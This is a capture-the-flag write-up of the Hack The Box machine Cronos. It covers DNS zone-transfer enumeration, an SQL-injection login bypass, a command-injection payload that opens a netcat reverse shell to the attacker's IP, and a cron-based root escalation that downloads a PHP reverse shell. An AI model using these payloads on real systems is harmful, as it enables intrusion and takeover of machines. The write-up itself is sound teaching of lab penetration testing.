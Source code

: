 ```yaml
---
layout: post
title: Cronos(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.13

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.13</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-22 02:36 EST
<br>Nmap scan report for 10.10.10.13
<br>Host is up (0.17s latency).
<br>Not shown: 997 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font> open  ssh     <font color="53E100">OpenSSH 7.2p2</font> Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol <br>2.0)
<br>| ssh-hostkey: 
<br>|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
<br>|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
<br>|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (EdDSA)
<br><font color="BB69EC">53/tcp</font> open  domain  <font color="53E100">ISC BIND 9.10.3-P4-Ubuntu</font>
<br>| dns-nsid: 
<br>|_  bind.version: 9.10.3-P4-Ubuntu
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Apache httpd 2.4.18</font> ((Ubuntu))
<br>|_http-server-header: Apache/2.4.18 (Ubuntu)
<br>|_http-title: Apache2 Ubuntu Default Page: It works
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: Linux 3.10 - 4.8 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.8 (92%), Linux 3.8 - 3.11 (92%), Linux 4.4 (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>TRACEROUTE (using port 53/tcp)
<br>HOP RTT       ADDRESS
<br>1   165.88 ms 10.10.14.1
<br>2   165.97 ms 10.10.10.13</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 44.20 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Port 53 is open So let's enumerate that first

<font size="1">
<div style="height:80px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># dnsrecon -n 10.10.10.13 -r 10.10.10.0/24
<br><font color="RoyalBlue">[*]</font> Reverse Look-up of a Range
<br><font color="RoyalBlue">[*]</font> Performing Reverse Lookup from 10.10.10.0 to 10.10.10.255
<br><font color="RoyalBlue">[*]</font> 	 PTR ns1.cronos.htb 10.10.10.13
<br><font color="53E100">[*]</font> 1 Records Found
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>There is a name server avaialble and the Domain name is **cronos.htb**
<br>To under start how DNS server works and how we can enumerate and exploit you can read these 2 blogs [Pentest-lab](https://pentestlab.blog/2012/11/13/dns-reconnaissance-dnsrecon/),[INFOSEC-INSTITUTE](http://resources.infosecinstitute.com/dns-hacking/).
<br>Now we know there is a dns domain which is a name server ns1.cronos.htb in our target machine.
<br>Now we will try to extract more details from it.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># host -a -l cronos.htb 10.10.10.13
<br>Trying "cronos.htb"
<br>Using domain server:
<br>Name: 10.10.10.13
<br>Address: 10.10.10.13#53
<br>Aliases:</p> 

<p>;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 56023
<br>;; flags: qr aa ra; QUERY: 1, ANSWER: 7, AUTHORITY: 0, ADDITIONAL: 0</p>

<p>;; QUESTION SECTION:
<br>;cronos.htb.			IN	AXFR</p>

<p>;; ANSWER SECTION:
<br>cronos.htb.		604800	IN	SOA	cronos.htb. <font color="ffff00">admin.cronos.htb</font>. 3 604800 86400 2419200 604800
<br>cronos.htb.		604800	IN	NS	ns1.cronos.htb.
<br>cronos.htb.		604800	IN	A	10.10.10.13
<br>admin.cronos.htb.	604800	IN	A	10.10.10.13
<br>ns1.cronos.htb.		604800	IN	A	10.10.10.13
<br>www.cronos.htb.		604800	IN	A	10.10.10.13
<br>cronos.htb.		604800	IN	SOA	cronos.htb. <font color="ffff00">admin.cronos.htb</font>. 3 604800 86400 2419200 604800</p>

<p>Received 192 bytes from 10.10.10.13#53 in 167 ms
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>As you can see we found a new sub domain which is admin.cronos.htb
<br>Now add this domain to our known hosts /etc/hosts

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat /etc/hosts
<br>127.0.0.1	localhost
<br>127.0.1.1	kali
<br>10.10.10.65	beehive.ariekei.htb
<br>10.10.10.75	nibbles.htb
<br>10.10.10.13	admin.cronos.htb
<br>10.10.10.79	valentine.htb
<br>10.10.10.80	crimestoppers.htb
<br>10.10.10.61	enterprise.htb
<br>10.10.10.67	inception.htb
<br>10.10.10.69	fluxcapacitor.htb
<br>10.10.10.65	calvin.ariekei.htb
<br>10.10.10.60	sense.htb</p>

<p># The following lines are desirable for IPv6 capable hosts
<br>::1     localhost ip6-localhost ip6-loopback
<br>ff02::1 ip6-allnodes
<br>ff02::2 ip6-allrouters
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Now open admin.cronos.htb in browser
![1.2](https://teckk2.github.io/assets/images/Cronos/1.2.JPG)
<br>We got a login page.
<br>Now we need access, for that we can use sql injection loggin bypass
<br>**wronguser' or 1=1 LIMIT 1;#**
<br>and in the password section you can put anything I am putting password then click submit.
![2](https://teckk2.github.io/assets/images/Cronos/2.png)
<br>The Application have OS Command injection Vulnerabilty using which we can execute any system command from the WEB.
![3](https://teckk2.github.io/assets/images/Cronos/3.JPG)
**Shell**
![4](https://teckk2.github.io/assets/images/Cronos/4.JPG)
<br>{**8.8.8.8;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 4455 >/tmp/f**}

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.13] 53274
<br>/bin/sh: 0: can't access tty; job control turned off
<br>$ python -c 'import pty;pty.spawn("/bin/bash")'
<br>www-data@cronos:/var/www/admin$ cd /home
<br>cd /home
<br>www-data@cronos:/home$ ls
<br>ls
<br>noulis
<br>www-data@cronos:/home$ cd noulis
<br>cd noulis
<br>www-data@cronos:/home/noulis$ ls -la
<br>ls -la
<br>total 44
<br>drwxr-xr-x 4 noulis noulis 4096 Apr  9  2017 .
<br>drwxr-xr-x 3 root   root   4096 Mar 22  2017 ..
<br>-rw------- 1 root   root      1 Dec 24 17:43 .bash_history
<br>-rw-r--r-- 1 noulis noulis  220 Mar 22  2017 .bash_logout
<br>-rw-r--r-- 1 noulis noulis 3771 Mar 22  2017 .bashrc
<br>drwx------ 2 noulis noulis 4096 Mar 22  2017 .cache
<br>drwxr-xr-x 3 root   root   4096 Apr  9  2017 .composer
<br>-rw------- 1 root   root    259 Apr  9  2017 .mysql_history
<br>-rw-r--r-- 1 noulis noulis  655 Mar 22  2017 .profile
<br>-rw-r--r-- 1 root   root     66 Apr  9  2017 .selected_editor
<br>-rw-r--r-- 1 noulis noulis    0 Mar 22  2017 .sudo_as_admin_successful
<br>-r--r--r-- 1 noulis noulis   33 Mar 22  2017 user.txt
<br>www-data@cronos:/home/noulis$ cat user.txt
<br>cat user.txt
<br><font color="53E100">*********************************</font>
<br>www-data@cronos:/home/noulis$ </p>
</div>
</font>

**Privilege Escalation**
<br>If you check the Crontab, there is file with the name artisan in /var/www/laravel/ which is owned by www-data but it is sheduled in crontab with no specified time and with root permission which mean we can execute that file at anytime with root priviledges.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>www-data@cronos:/etc$ cat crontab
<br>cat crontab
<br># /etc/crontab: system-wide crontab
<br># Unlike any other crontab you don't have to run the `crontab'
<br># command to install the new version when you edit this file
<br># and files in /etc/cron.d. These files also have username fields,
<br># that none of the other crontabs do.</p>

<p>SHELL=/bin/sh
<br>PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin</p>

<p># m h dom mon dow user	command
<br>17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
<br>25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
<br>47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
<br>52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
<br>* * * * *	<font color="red">root</font>	php <font color="ffff00">/var/www/laravel/artisan</font> schedule:run >> /dev/null 2>&1
<br>#
<br>www-data@cronos:/etc$ ls -l /var/www/laravel/artisan
<br>ls -l /var/www/laravel/artisan
<br>-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
<br>www-data@cronos:/etc$ cat /var/www/laravel/artisan
<br>cat /var/www/laravel/artisan
<br>#!/usr/bin/env php
<br><?php</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Register The Auto Loader
<br>|--------------------------------------------------------------------------
<br>|
<br>| Composer provides a convenient, automatically generated class loader
<br>| for our application. We just need to utilize it! We'll require it
<br>| into the script here so that we do not have to worry about the
<br>| loading of any our classes "manually". Feels great to relax.
<br>|
<br>*/</p>

<p>require __DIR__.'/bootstrap/autoload.php';</p>

<p>$app = require_once __DIR__.'/bootstrap/app.php';</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Run The Artisan Application
<br>|--------------------------------------------------------------------------
<br>|
<br>| When we run the console application, the current CLI command will be
<br>| executed in this console and the response sent back to a terminal
<br>| or another output device for the developers. Here goes nothing!
<br>|
<br>*/</p>

<p>$kernel = $app->make(Illuminate\Contracts\Console\Kernel::class);</p>

<p>$status = $kernel->handle(
<br>&nbsp;&nbsp;&nbsp;&nbsp;$input = new Symfony\Component\Console\Input\ArgvInput,
<br>&nbsp;&nbsp;&nbsp;&nbsp;new Symfony\Component\Console\Output\ConsoleOutput
<br>);</p>

<p>/*
<br>|--------------------------------------------------------------------------
<br>| Shutdown The Application
<br>|--------------------------------------------------------------------------
<br>|
<br>| Once Artisan has finished running. We will fire off the shutdown events
<br>| so that any final work may be done by the application before we shut
<br>| down the process. This is the last thing to happen to the request.
<br>|
<br>*/</p>

<p>$kernel->terminate($input, $status);</p>

<p>exit($status);
<br>www-data@cronos:/etc$ </p>

</div>
</font>

<br>As we already know the it's PHP file, So we can replace this file with our PHP reverse shell and gain root access.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>www-data@cronos:/var/www/laravel$ wget http://10.10.*.*:8000/teck-nc.php -O artisan
<br>tisanhttp://10.10.*.*:8000/teck-nc.php -O ar 
<br>--2018-02-22 10:51:02--  http://10.10.*.*:8000/teck-nc.php
<br>Connecting to 10.10.*.*:8000... connected.
<br>HTTP request sent, awaiting response... 200 OK
<br>Length: 5492 (5.4K) [application/octet-stream]
<br>Saving to: 'artisan'</p>

<p>artisan             100%[===================>]   5.36K  --.-KB/s    in 0.001s </p> 

<p>2018-02-22 10:51:02 (5.61 MB/s) - 'artisan' saved [5492/5492]</p>

<p>www-data@cronos:/var/www/laravel$ ./artisan
<br>./artisan
<br>./artisan: line 1: ?php: No such file or directory
<br>./artisan: line 2: //: Is a directory
<br>./artisan: line 3: syntax error near unexpected token `('
<br>./artisan: line 3: `// Copyright (C) 2007 pentestmonkey@pentestmonkey.net'
<br>www-data@cronos:/var/www/laravel$ </p>
</div>
</font>

<br>After executing the file, wait for 30 sec and you will get root shell.





